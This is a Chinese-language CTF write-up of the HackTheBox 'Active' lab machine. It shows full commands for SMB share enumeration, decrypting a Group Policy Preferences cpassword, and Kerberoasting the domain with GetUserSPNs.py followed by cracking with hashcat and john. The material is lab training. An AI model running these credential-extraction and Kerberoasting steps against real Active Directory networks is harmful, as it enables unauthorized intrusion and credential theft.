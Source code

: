 ```yaml
---
title: Active（windows LDAP活动目录）
categories:
- training
tags:
- training
---
```

参考资料：[smbclient](https://whale3070.github.io/tools/2016/12/12/x/)

## scan

```
53/tcp    open  domain        Microsoft DNS 6.1.7601
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2019-01-02 04:44:03Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49169/tcp open  msrpc         Microsoft Windows RPC
49171/tcp open  msrpc         Microsoft Windows RPC
49182/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```
## analysing
参考资料：[windows active directory](https://zh.wikipedia.org/wiki/Active_Directory)

`53/tcp    open  domain        Microsoft DNS 6.1.7601`
以上结果说明了，这是一台域名服务器（Domain Name System server），active.htb

搜索一下“Microsoft DNS 6.1.7601”，即可得知系统版本——Windows 2008 R2 Standard version

## smb协议探测（Server Message Block protocol）
445端口是用来共享文件夹或者打印机的
```
nmap --script safe -p445 10.10.10.100

smbclient -L //10.10.10.100

smbmap -H 10.10.10.100
```
![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-15/8.PNG)

smbclient //10.10.10.100/Replication
WARNING: The "syslog" option is deprecated
protocol negotiation failed: NT_STATUS_CONNECTION_RESET

## smbmap
SMBMap - Samba Share Enumerator

用smbmap -h可以查看帮助文档

-R是递归列出某目录
![9](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-15/9.PNG)

```
获得信息：
	.\\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\
	dr--r--r--                0 Sat Jul 21 18:37:44 2018	.
	dr--r--r--                0 Sat Jul 21 18:37:44 2018	..
	-r--r--r--              533 Sat Jul 21 18:38:11 2018	Groups.xml
```
下载文件: `smbmap -H 10.10.10.100 -R Replication -A Groups.xml`
```
获得信息2：
cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
userName="active.htb\SVC_TGS"
```
## 破解cpassword

参考资料：[Exploiting GPP - Credential Storage in Groups.xml File](https://www.youtube.com/watch?v=ks4aNbArOtk)
[工具下载**gpprefdecrypt.ps1**](https://github.com/reider-roque/pentest-tools/blob/master/password-cracking/gpprefdecrypt/gpprefdecrypt.ps1)

```
cmd.exe 右键以管理员身份运行
cd C:\Users\whale\Desktop
powershell.exe ./gpprefdecrypt.ps1 edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```
![10](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-15/10.PNG)
`GPPstillStandingStrong2k18`

#### 问题
期间出现windows不允许执行ps1脚本。
解决办法：以管理员身份运行powershell，输入以下命令，然后输入Y。
```
set-executionpolicy remotesigned
```
#### 方法二：
kali工具破解：
```
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```
## 域用户提权
`smbmap -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 -H 10.10.10.100`
![11](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-15/11.PNG)

可以发现，多了三个目录可读。依次检查这些目录，获得了user.txt。
`smbmap -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 -H 10.10.10.100 -R Users -A user.txt`

**Kerberoasting**
[GetUserSPNs.py](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/GetUserSPNs.py)

Kerberoasting是从票据分发服务中破解hash，来获得明文密码。

Kerberos身份验证使用服务主体名称（SPN）来标识关联的帐户。

```
ldapsearch -x -h 10.10.10.100 -p 389 -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2))(serviceprincipalname=*/*))" serviceprincipalname | grep -B 1 servicePrincipalName

locate GetUserSPNs.py

/usr/share/doc/python-impacket/examples/GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out

```
![12](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-15/12.PNG)

```
apt install exim4-config
apt-get install pocl-opencl-icd
apt-get install libhwloc-dev ocl-icd-dev ocl-icd-opencl-dev
apt-get upgrade hashcat 更新了一下hashcat，然后就可以正常运行了
hashcat -m 13100 GetUserSPNs.out /usr/share/wordlists/rockyou.txt --force --potfile-disable

john --format:krb5tgs GetUserSPNs.out --wordlist=/usr/share/wordlists/rockyou.txt
```
![13](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-15/13.PNG)
如果字典里没有正确的密码，hashcat会提示
```
[s]tatus [p]ause [b]ypass [c]heckpoint [q]uit => 
```
这个时候就要换字典，再次尝试，或者放弃。
## 总结

工作组和域
[工作组和域的区别](https://www.douban.com/note/527276260/)

域一般用在比较大的网络里，需要一台域控服务器，其他计算机要互相访问就要经过它。

工作组比较小（网上邻居），没有控制彼此访问的服务器。

下次继续学习windows域渗透。。。



